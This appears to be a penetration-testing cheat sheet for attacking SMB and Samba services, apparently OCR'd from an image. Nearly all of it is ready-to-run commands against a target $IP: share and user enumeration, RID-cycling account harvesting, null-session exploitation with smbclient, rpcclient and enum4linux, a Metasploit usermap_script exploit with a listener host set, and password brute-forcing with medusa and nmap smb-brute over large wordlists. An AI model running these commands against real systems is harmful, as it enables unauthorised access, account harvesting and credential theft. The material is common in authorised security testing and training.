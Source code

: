 ```bash


# nMAP Share Enumeration
> nmap --script smb-enum-shares -p139,445 -T4 -Pn $IP

> nmap -T4 -v -oN shares --script smb-enum-shares --script-args smbuser=username,

> smbpass=password -p139,445 $IP

> nmap -sU -sS --script=smb-enum-users -p U:137,T:139 $IP #enum shares

# RID Cycling attack for bruteforcing domain controllers to enumerate user accounts
# https://github.com/trustedsec/ridenum
> apt install ridenum
> ridenum $IP 500 50000 dict.txt

> msfconsole; use auxiliary/scanner/smb/smb_lookupsid


# Check null sessions
smbmap -H $IP
rpcclient -U "" -N $IP
smbclient -L \\\\$IP\\ -U ""
smbclient //$IP/IPC$ -N

# Exploit null sessions
enum -s $IP
enum -U $IP
enum -P $IP
enum4linux -a $IP
/usr/share/doc/python3-impacket/examples/samrdump.py $IP

# Connect to username shares
smbclient //$IP/share -U username

# Connect to share anonymously
smbclient \\\\$IP\\<share>
smbclient //$IP/<share>
smbclient //$IP/<share\ name>
smbclient //$IP/<""share name"">
rpcclient -U " " $IP
rpcclient -U " " -N $IP

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn $IP

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost $IP; run

# Bruteforce login
medusa -h $IP -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $IP  -vvvv
nmap –script smb-brute $IP

# nmap smb enum & vuln
```